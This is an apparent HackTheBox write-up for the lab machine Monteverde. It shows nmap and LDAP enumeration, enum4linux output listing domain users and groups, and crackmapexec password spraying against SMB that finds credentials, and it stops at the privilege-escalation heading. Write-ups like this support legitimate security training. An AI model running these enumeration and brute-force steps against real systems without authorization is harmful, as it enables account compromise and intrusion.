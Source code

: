 # Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.172 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/1.png
">

After running a thorough portscan on the target we learn that the target is a domain controller and has lot's of open ports. This can be usefull for enumeration.

# Enumeration
We'll try to run some basic vulnerability scans on ports that are known to have security issues. This didn't return anything usefull.
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/2.png
">

Running ```enum4linux 10.10.10.172``` gave use much information:
```
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]

[+] Getting domain groups:
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Azure Admins] rid:[0xa29]
group:[File Server Admins] rid:[0xa2e]
group:[Call Recording Admins] rid:[0xa2f]
group:[Reception] rid:[0xa30]
group:[Operations] rid:[0xa31]
group:[Trading] rid:[0xa32]
group:[HelpDesk] rid:[0xa33]
group:[Developers] rid:[0xa34]
```
We note that the ```Account Lockout Threshold``` is set to ```None``` enabling us to bruteforce the target without being locked out.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/4.png
">

Unfortunately there isn't a share available. This is a common place to find usefull information. But we do have found some usernames which we'll save to ```username.txt```.
```
mhope
dgalanos
roleary
smorgan
SABatchJobs
```

Also running the following command returned a lot of information related to the domain.
```
map -n -sV --script "ldap* and not brute" 10.10.10.172 -Pn
```

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/3.png
">

Running ```ldapdomaindump 10.10.10.172``` gave me issues. Not sure if it's a local problem.

# Initial Foothold
We can now try to run a dictionary attack on the smb service using ```crackmapexec```.

```
crackmapexec smb 10.10.10.172 -d megabank -u usernames.txt -p /usr/share/seclists/Passwords/darkweb2017-top1000.txt 
```
That didn't return valid credentials. Let's try it again using the usernames also as passwords:
```
crackmapexec smb 10.10.10.172 -d megabank -u usernames.txt -p usernames.txt
```
That led to success:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Monteverde/assets/5.png
">

# Privilege Escalation